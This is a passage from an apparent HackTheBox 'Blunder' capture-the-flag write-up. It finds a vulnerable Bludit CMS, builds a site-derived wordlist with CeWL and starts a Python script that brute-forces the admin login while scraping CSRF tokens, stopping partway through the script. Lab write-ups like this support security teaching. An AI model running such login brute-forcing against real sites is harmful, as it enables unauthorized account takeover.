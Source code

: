 By looking on the Internet, we discover the [**Bludit CMS**](https://www.bludit.com/).

And with some more research, we discover an authenticated Remote Code Execution on this CMS [here](https://github.com/cybervaca/CVE-2019-16113)

## Exploiting

### HTTP

We try to do some more enumeration on the website like following :

![wfuzz Todo]({{ "assets/Blunder/wfuzzTodo.png" | absolute_url }} "wfuzz Todo")

The `http://10.10.10.191/todo.txt` could be interesting :

![Todo list]({{ "assets/Blunder/todo.png" | absolute_url }} "Todo list")

We have the information that the CMS is not up to date, so it is probably vulnerable to the previously discovered vulnerability.
We also have the information that there is a user named `fergus`. We can try to brute force the login page to find the password for this user.

We can use a tool to generate a list of password based on the content on the website. By generating a list, we have more chance to find a correct password than with a random dictionary. We'll use the [CeWL](https://github.com/digininja/CeWL) tool.

With the following command line, we can generate a list of password :
```
./cewl.rb -w ~/HackTheBox/Blunder/password.txt  http://10.10.10.191/
CeWL 5.5.0 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

We use python to write a little script to brute force the authentication form :

```python
import requests


def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]


def main():
    url = 'http://10.10.10.191/admin/login'
    username = 'fergus'

    passwordFile = "password.txt"

    passwords = open_ressources(passwordFile)

    for password in passwords:

        print("[+] Retrieving CSRF token")

        session = requests.Session()

        r = session.get(url)
        retour = r.text

        findingToken = 'tokenCSRF" value="'
        indexStart = retour.find(findingToken)

        indexEnd = retour.find('">',indexStart)

        csrfToken = retour[int(indexStart+len(findingToken)):int(indexEnd)]

        if csrfToken != '':
```
